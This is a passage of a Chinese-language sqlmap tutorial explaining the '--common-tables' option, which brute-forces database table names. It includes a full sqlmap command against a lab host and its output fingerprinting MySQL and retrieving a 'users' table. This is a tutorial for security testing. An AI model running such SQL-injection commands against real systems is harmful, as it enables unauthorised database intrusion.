 ```
VARCHAR(8000)),
(CHAR(32)))
[hh:mm:50] [INFO] retrieved: bar
[hh:mm:50] [DEBUG] performed 27 queries in 0 seconds
SELECT 'foo', 'bar': 'foo, bar'
```

#### 爆破

**暴力破解表名**

参数：`–common-tables`

当使用`–tables`无法获取到数据库的表时，可以使用此参数。

通常是如下情况：

```
1. `MySQL`数据库版本小于5.0，没有`information_schema`表。

2. 数据库是`Microssoft Access`，系统表`MSysObjects`是不可读的（默认）。

3. 当前用户没有权限读取系统中保存数据结构的表的权限。
```

暴力破解的表在`txt/common-tables.txt`文件中，你可以自己添加。

列举一个MySQL 4.1的例子：

```
$ python sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --common-tables -D testdb --banner

[...]
[hh:mm:39] [INFO] testing MySQL
[hh:mm:39] [INFO] confirming MySQL
[hh:mm:40] [INFO] the back-end DBMS is MySQL
[hh:mm:40] [INFO] fetching banner
web server operating system: Windows
web application technology: PHP 5.3.1, Apache 2.2.14
back-end DBMS operating system: Windows
back-end DBMS: MySQL < 5.0.0
banner:'4.1.21-community-nt'

[hh:mm:40] [INFO] checking table existence using items from '/software/sqlmap/txt/common-tables.txt'
[hh:mm:40] [INFO] adding words used on web page to the check list
please enter number of threads? [Enter for 1 (current)] 8
[hh:mm:43] [INFO] retrieved: users

Database: testdb
[1 table]
+-------+
| users |
+-------+
```
